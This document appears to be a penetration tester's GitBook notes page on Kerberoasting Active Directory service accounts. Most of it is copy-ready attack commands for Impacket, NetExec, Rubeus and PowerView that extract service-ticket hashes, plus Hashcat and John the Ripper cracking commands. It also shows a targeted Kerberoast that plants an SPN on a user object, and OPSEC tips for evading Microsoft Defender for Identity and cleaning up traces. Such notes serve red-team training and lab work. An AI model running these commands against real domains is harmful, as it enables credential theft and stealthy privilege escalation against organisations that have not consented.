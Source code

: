 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Kerberoasting

{% hint style="info" %}
Typically, **Kerberoasting happens after compromising a domain user**. However, according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to **perform this attack with an account susceptible to** [ASREPRoast](as-reproasting.md)! For an example of this attack vector check [Rebound](../../../boxes/insane/rebound.md#kerberoasting).
{% endhint %}

{% hint style="warning" %}
**OPSEC:** Kerberoasting is a very silent attack; only one logged entry is created when requesting the ST (`4769`). There are typically thousands of those events on a DC per day.
{% endhint %}

Kerberoasting is **an attack on the Service Ticket (ST) and Service Principal Names (SPNs)**. SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

{% hint style="danger" %}
Accounts like `krbtgt`, machine accounts (e.g. `dc01$`), and (g)MSAs are usually resistant due to complex, long passwords.
{% endhint %}

<figure><img src="../../../.gitbook/assets/kerberoasting_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Tools

{% tabs %}
{% tab title="Impacket" %}
Find and attack user accounts used as service accounts with [Impacket](kerberoasting.md#impacket):

{% code overflow="wrap" %}
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 <domain>/<user> -outputfile <fileName>

# Kerberoast an account susceptible to ASREPRoasting
sudo impacket-GetUserSPNs -no-preauth jjones -usersfile domain_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
```
{% endcode %}

If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)`:

```bash
sudo ntpdate <dc-ip>
```
{% endtab %}

{% tab title="nxc" %}
Find and attack user accounts used as service accounts with [NetExec](../ad-tools/netexec.md):

```bash
# Kerberoast with NetExec
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```

If time sync errors occur, i.e., `KRB_AP_ERR_SKEW(Clock skew too great)`:

```bash
sudo ntpdate <dc-ip>
```

For an example of Kerberoasting using NetExec see [Active](https://x7331.gitbook.io/boxes/boxes/easy/active#eop-via-kerberoasting).
{% endtab %}

{% tab title="Rubeus" %}
{% hint style="warning" %}
**OPSEC**: To evade detection mechanisms that flag Kerberos encryption downgrades, like MDI, focus on service accounts that are configured to support only `RC4-HMAC`. Requesting a service ticket for them using RC4 appears legitimate and does not trigger downgrade alerts. In addition, try to Kerberoast a single user at a time as this is not seen as an anomaly and won't trigger alerts. \
\
E.g. `.\Rubeus.exe kerberoast /user:svcadmin /simple /rc4opsec`&#x20;
{% endhint %}

Find user accounts used as service accounts with [Rubeus](../ad-tools/rubeus.md):

```powershell
# List Kerberoastable accounts
.\Rubeus.exe kerberoast /stats
```

Execute the attack:

{% code overflow="wrap" %}
```powershell
# Kerberoast all SPNs and extract TGS-REP hashes
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /format:hashcat /nowrap

# Kerberoast a single user
.\Rubeus.exe kerberoast /user:svcadmin /simple

# Kerberoast the target account using explicit credentials
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap

# Kerberoast an account susceptible to ASREPRoasting with Rubeus
.\Rubeus.exe kerberoast /domain:<domain> /dc:<ip> /nopreauth:<user> /spns:<username-list>
```
{% endcode %}

For an example of Kerberoasting using Rubeus see [Sizzle](https://x7331.gitbook.io/boxes/boxes/insane/sizzle#path-to-victory).
{% endtab %}

{% tab title="PowerView" %}
Find user accounts used as service accounts with [PowerView](../ad-tools/powerview.md):

```powershell
# Enumerate SPNs with PowerView
Get-DomainUser * -SPN | select samaccountname,serviceprincipalname
```

Execute the attack:

{% code overflow="wrap" %}
```powershell
# Kerberoast the enumerated accounts with PowerView
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation

# Kerberoast the target account with PowerView
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
{% endcode %}

Optionally, we can clear the SPNs of the target account:

```powershell
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}

{% tab title="AD Module" %}
Find user accounts used as service accounts with the [ActiveDirectory](https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2025-ps) module:

{% code overflow="wrap" %}
```powershell
# Enumerate SPNs with AD module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```
{% endcode %}
{% endtab %}
{% endtabs %}

The `krb5tgs` hashes can be cracked offline using [Hashcat](../../../tools/passwords/hashcat.md) or [JtR](../../../tools/passwords/john.md):

{% code overflow="wrap" %}
```bash
# Crack the hashes using Hashcat
sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Crack the hashes using John the Ripper
.\john.exe --wordlist=<wordlist> hashes.kerberoast
```
{% endcode %}

## Targeted Kerberoast

If we have `GenericWrite` or `GenericAll` on a user object, we can set an SPN on that user account and then extract and crack the TGS.&#x20;

{% hint style="warning" %}
**OPSEC**: Clean up by removing the SPN afterwards.
{% endhint %}

{% tabs %}
{% tab title="Windows" %}
Set a SPN for the target user (must be unique for the forest) using PowerView or the ActiveDirectory module:

{% code overflow="wrap" %}
```powershell
# PowerView
Set-DomainObject -Identity <targetUser> -Set @{serviceprincipalname='<serviceName>/<randomString>'}

# AD module
Set-ADUser -Identity <targetUser> -ServicePrincipalNames @{Add='<serviceName>/<randomString>'}
```
{% endcode %}
{% endtab %}

{% tab title="Linux" %}
This attack can be performed with [`targetedKerberoast.py`](https://github.com/ShutdownRepo/targetedKerberoast):

```bash
targetedKerberoast.py -v -d <domain_FQDN> -u <user> -p <pass>
```
{% endtab %}
{% endtabs %}

## Resources

* An amazing demonstration of Kerberoasting ([video](https://www.youtube.com/watch?v=-3MxoxdzFNI))
* What `impacket-GetUserSPNs` does behind the scenes ([video](https://www.youtube.com/watch?v=xH5T9-m9QXw))
* Siegecast's lecture on Kerberoasting ([video](https://www.youtube.com/watch?v=Jaa2LmZaNeU))
* An in-depth adsecurity article about Kerberoasting ([article](https://adsecurity.org/?p=3458))
